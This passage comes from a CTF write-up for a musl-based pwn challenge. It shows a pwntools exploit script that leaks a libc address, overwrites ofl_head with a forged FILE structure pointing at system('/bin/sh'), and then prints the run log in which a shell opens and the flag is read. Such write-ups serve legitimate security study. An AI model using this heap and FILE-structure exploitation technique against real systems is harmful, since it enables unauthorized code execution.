 ```python{linenos=true}
)
io.sendline(payload)
io.recvuntil(b'|')
libc_leak = u64(io.recv(6).ljust(8, b'\0'))
libc_address = libc_leak - 0x62418
system = libc_address + 0x5bb7e

ofl_head = libc_address + 0xa4e88
scanf_buf = libc_address + 0xa32e8
log.success(f'{hex(libc_leak) = }')
log.success(f'{hex(libc_address) = }')
log.success(f'{hex(ofl_head) = }')
log.success(f'{hex(scanf_buf) = }')

# Create a fake file and overwrite ofl_head to point to it
io.sendlineafter(b'Where: ', hex(ofl_head).encode())
io.sendlineafter(b'What: ', flat(
    (str(scanf_buf + 0x10).encode() + b'\n').ljust(16, b'\0'),
    int.from_bytes(b'/bin/sh\0', 'little'),
    4 * p64(0x0),
    0x0, # wpos
    0x0,
    0x1, # wbase
    0x0, # read
    system, # write
))

io.interactive()
```

```bash
$ ./solve.py
[*] '/home/nouxia/ctf/arkavidia/pwn/www-0/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[*] '/home/nouxia/ctf/arkavidia/pwn/www-0/ld-musl-x86_64.so.1'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to localhost on port 8002: Done
[+] hex(libc_leak) = '0x7add684b6418'
[+] hex(libc_address) = '0x7add68454000'
[+] hex(ofl_head) = '0x7add684f8e88'
[+] hex(scanf_buf) = '0x7add684f72e8'
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
flag{test}
$
```

---

## References
1. musl source code - [https://github.com/kraj/musl](https://github.com/kraj/musl)